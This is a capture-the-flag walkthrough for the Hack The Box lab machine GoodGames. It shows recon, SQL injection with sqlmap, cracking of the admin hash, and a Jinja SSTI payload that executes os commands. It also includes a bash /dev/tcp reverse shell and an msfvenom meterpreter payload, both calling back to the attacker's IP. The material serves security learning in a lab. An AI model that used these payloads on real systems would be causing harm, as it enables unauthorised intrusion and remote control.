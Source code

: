 # GoodGames HTB Machine

GoodGames is a **Linux** HTB Machine rated **Easy** As usually we start with our Recon with Nmap or Rustscan and look for open ports.

## Nmap / Rustscan

**rustscan -a 10.10.11.130 --ulimit 5000 -r 1-65535 -- -A**
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD POST
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=9/17%OT=80%CT=%CU=32820%PV=Y%DS=2%DC=T%G=N%TM=68CA7AD2
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M542ST11NW7%O2=M542ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=M542ST11
OS:NW7%O6=M542ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M542NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 2.504 days (since Sun Sep 14 23:03:42 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   364.02 ms 10.10.16.1
2   181.55 ms 10.10.11.130

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:09
Completed NSE at 11:09, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:09
Completed NSE at 11:09, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:09
Completed NSE at 11:09, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.46 seconds
```

It Looks like we only have one port open Port 80.

## Port 80

The website is running  **Werkzeug httpd 2.0.2 (Python 3.9.2)** so i went to the website.Go to the /etc/hosts and set the **goodgames.htb**.

![Alt-text](web)

On the Background also Open The Caido Proxy You can Use any other tool you want like Burp Suite or Zap but Im exploring Caido for now

![Alt-text](caido)

Add The IP Address or DNS name GoodGames.HTB of the website to The Scope so you wont deal with unneccesary traffic.So used Ffuf to Fuzz the website and also looked around and most of the posts are made by these users **Wolfenstein, Hitman and Witch Murder** so it could be useful later or not.

![Alt-text](ffuf)

Found a few Directories using ffuf so i signup for an account.

![Alt-text](sign)

After making an Account i Copied The Signup and Login request on Caido and pasted then in a file and used sqlmap to look for sqli.
**sqlmap -r <request file> --dbs**

![Alt-text](sqli)

It Looks Like The Login Request is Vulnerable to SQLi **[11:33:30] [INFO] POST parameter 'email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable**

![Alt-text](vuln)

It looks like we have 1 database called **main** not counting the default **information_schema** of course next is to check the tables of main or just dump the database but i dont want a mess on my screen so ill take things slow.

**sqlmap -r login.txt -D main --tables --batch**

![Alt-text](tables)

Looks like we have 3 tables so i'll probably dump the whole Database and see if There is anything interesting i could find to gain a shell.I also tried the --os-shell and other shell commands but there is no writable path and so far i dont see python when sqlmap prompt me to choose a web programming language that the website uses

```
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
```

so SQLi could take me no where even if i dump the database there is no SSH or any other places i could get a shell and the time-based sqli is taking to long so back on testing other vulnerability and i havent fuzz for any virtual hosts.

![Alt-text](timebased)

#### VHOSTS

**ffuf -u http://goodgames.htb -H "Host: FUZZ.goodgames.htb" -w <wordlist> -fs 85107**

I tried Fuzzing for Vhosts but no luck so my only hope is to wait for sqlmap to dump the main database and see if i could find creds i could use to login maybe an account that has higher priviledges than me like root or admin.After a while i got the admin hash.

![Alt-text](adminhash)

Cracked The Hash on crackstation https://crackstation.net/

![ALt-text](adminpass)

Creds **admin@goodgames.htb:superadministrator** Got in The Administrator's Account and explored the website as the admin on the top right corner there is a tiny botton i pressed it and it redirected me to **http://internal-administration.goodgames.htb/**  so put the this on the /etc/hosts internal-administration.goodgames.htb.
 
![Alt-text](internal)

so i loged in with the admin creds.

![Alt-text](admin)

while exploring the internal-administration.goodgames.htb i went to settings There was a section that wants me to General information so i tried Sqli no luck then tried SSTI since the username was being reflected.

![Alt-text](ssti)

and it worked i got 49.

![Alt-text](proof)

so now i need to figure out a way to gain cmd first we will try to use the tool SSTI you can just download it on github and run it probably let it run on the background and try some manual approach while its doing its thing.

**python3 sstimap.py -u http://internal-administration.goodgames.htb/settings -d "name=test"**

![Alt-text](ss)

while its automating i tried a few payloads and this one worked **{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}**

![Alt](sstiroot)

Looks like i am root now its time to try to get a reverse shell so we can get the flags. so i used this payload to gain rce on the machine **{{config.__class__.__init__.__globals__['os'].popen('bash -c "bash -i >& /dev/tcp/10.10.16.3/4444 0>&1"').read()}}** and got the user flag

![Alt-text](userflag)

I couldnt find the root flag a while exploring the file i ran into some docker stuff so we're probably inside a docker container and we need a way to escape it,so i googled ways to escape docker container and i ran into a metasploit module that will automate that stuff i have done much of docker escaping https://www.rapid7.com/db/modules/exploit/linux/local/docker_privileged_container_escape/ so i generated a msfvenom payload **msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.16.3 lport=4445 -f elf -o msf.elf** downloaded it on the machine using wget and use the metasploit exploit/multi/handler and set the payload and other stuff like IP and Port executed the payload and got a meterpreter shell.

![Alt-text](msf)

and tried using the docker module and it did not work.

![Alt-text](docker)

so i tried using the exploit suggester for a way to Privesc

![Alt-text](exploit)

after a while no luck so i looked for internal hosts i could ssh into found 1 and ssh using augustus and the admin's passowrd. I dont know much about docker escaping i did study a little bit about docker so i follow the walkthrough to get the root flag and added the docker escape to my notes for future reference.


